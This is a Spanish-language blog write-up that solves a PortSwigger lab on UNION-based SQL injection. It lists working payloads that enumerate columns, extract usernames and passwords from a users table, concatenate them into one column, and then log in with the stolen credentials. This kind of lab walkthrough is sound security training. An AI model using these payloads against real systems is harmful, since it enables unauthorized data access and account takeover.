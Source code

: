 ```yaml
---
title: PortSwigger - SQL injection UNION attack, retrieving multiple values in a single column.
layout: post
post-image: /assets/images/gatohacker4.jpg 
description: La resolución del reto SQL injection UNION attack, retrieving multiple values in a single column. 
tags:
- portswigger
- sqli
- post
- writeups
---
```

# Solución
---

Primero hacemos click en **Gifts** o en cualquier filtro de búsqueda.

![](/images/images-portswigger-sqli/lab6-1.png)

Veremos que se agrega una cadena que es vulnerable a SQL injection.

![](/images/images-portswigger-sqli/lab6-2.png)

Empezamos enumerando la cantidad de columnas.

```sql
' UNION SELECT null -- -
```

![](/images/images-portswigger-sqli/lab6-3.png)

Escribimos dos `null` y comprobamos que existen 2 columnas.

```sql
' UNION SELECT null,null -- -
```

![](/images/images-portswigger-sqli/lab6-4.png)

Ahora verificamo si ambas columnas aceptan un string y nos damos cuenta que la primera columna no acepta un string.

```sql
' UNION SELECT 'a',null -- -
```

![](/images/images-portswigger-sqli/lab6-5.png)

Probamos con el segundo null y comprobamos que sí acepta strings.

```sql
' UNION SELECT null,'a' -- -
```

![](/images/images-portswigger-sqli/lab6-6.png)

Podemos enumerar uno a uno las columnas para obtener los nombres de usuario y contraseñas.

```sql
' UNION SELECT null,username from users -- -
```

![](/images/images-portswigger-sqli/lab6-7.png)

```sql
' UNION SELECT null,password from users -- -
```

![](/images/images-portswigger-sqli/lab6-8.png)

Pero la idea del laboratorio es practicar una forma de obtener las dol columnas en una sola query. Para eso podemos usar el símbolo `||` que sirve para unir dos columnas en  SQL.

```sql
' UNION SELECT null,password||username from users -- -
```

![](/images/images-portswigger-sqli/lab6-9.png)

Podemos separar de mejor forma las dos columnas agregando un símbolo entre las dos columnas. Separaremos ambas columnas con: `||':'||`.

```sql
' UNION SELECT null,password||':'||username from users -- -
```

![](/images/images-portswigger-sqli/lab6-10.png)

Con esta información vamos a **My account**.

![](/images/images-portswigger-sqli/lab6-11.png)

Iniciamos sesión con las credenciales que obtuvimos anteriormente.

![](/images/images-portswigger-sqli/lab6-12.png)

Y resolvemos el lab.

![](/images/images-portswigger-sqli/lab6-13.png)


---

## [Anterior](/sql-injection-union-attack-retrieving-data-from-other-tables)
## [Siguiente](/sql-injection-attack-querying-the-database-type-and-version-on-oracle)
